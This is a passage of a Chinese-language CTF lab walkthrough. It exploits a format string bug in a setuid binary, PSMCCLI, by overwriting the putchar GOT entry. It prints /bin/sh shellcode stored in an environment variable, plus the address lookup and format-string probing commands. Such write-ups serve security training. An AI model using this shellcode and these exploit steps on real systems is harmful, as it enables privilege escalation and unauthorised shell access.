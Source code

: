 前面查看到是格式字符串溢出... 这边思路覆盖 GOT 中的 putchar 函数... 因为它是 printf 之后的下一个函数，要获取需要覆盖的位置，我在运行程序之前先拆装了 putchar 函数，方便包含它在运行时加载的地址...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJ58nHtiaoGnvfuSVngIHjI9slxIMHD2PFdHtW5XxfRfPPkqVlzibbSmTQ/640?wx_fmt=png)

这边用 shellcode 地址覆盖 0x804a01c 即可... 格式字符串漏洞需要使用 SPAWN 的环境变量来保存 shellcode... 还需要将其定位在内存中...

```
[参考链接](https://github.com/Partyschaum/haxe/blob/master/getenvaddr.c)
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJibdjsnkyCk0icxa3RfxLOclPCPZGic6XxH0JEpfxdFy7e6CnOjbGicicx9g/640?wx_fmt=png)

出错了，发现用户不对...gcc 还得回到 pinksec 用户下操作...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJErBZMNmUXV9O5nWOGbbdLKvHAeXDDibIL3HFM0icyYDTHNm8WSfeaicvg/640?wx_fmt=png)

我这边选择了一个 shellcode...

```
[参考链接](http://shell-storm.org/shellcode/files/shellcode-811.php)
```

将其放入环境变量中...  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJrhRmarT7k6pzlbficicLjp9QjoIgHA0Rticv7iaSibAPWvBYIq4JNZtrxoA/640?wx_fmt=png)

```
export SPAWN=$(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")
```

现在可以在执行目标二进制文件期间找到环境变量在内存中的位置...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJL5ualtRibg98OQpAQvtknicaibpuxZALa6D3esYlxUahXR8KzibRUKibMZw/640?wx_fmt=png)

```
./getenvaddr SPAWN /usr/local/bin/PSMCCLI
```

将 0xbfffff9e 放入 0x804a01c 中.... 需要确保内存正确对齐...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJCLgKQL0vlgryeibib5uqtuic4DlPVEbZDd1wm3nO2uKLHicktwvvTGytXA/640?wx_fmt=png)

报错... 因为前面 GCC 问题导致退回了 pinksec 用户，重新提权后组又回去了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJOibyWick31NichWJpbEhLgPJvDPC5PDLmVXmqxEKrmYEriatpNdpWnBUGw/640?wx_fmt=png)

```
/usr/local/bin/PSMCCLI AAAABBBB$(python -c "print '%08x.'*200")
```

计划是用要覆盖的内存地址替换 AAAA 和 BBBB（我将覆盖两个 2 字节位置，而不是 14 字节，因为这样容易点）....

可以看到堆栈没有完全对齐 1 个字节，重新调整下...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMwDiblBvQBeBiaLOzfq3gIvJiaCsJYAMgnGZtb9mficLmxlI7mnrJKt9D7zYPtANKoBibzDl4WIuf8ibUw/640?wx_fmt=png)

```
/usr/local/bin/PSMCCLI AAAABBBBC$(python -c "print '%08x.'*200")
/usr/local/bin/PSMCCLI AAAABBBBCC$(python -c "print '%08x.'*200")
```
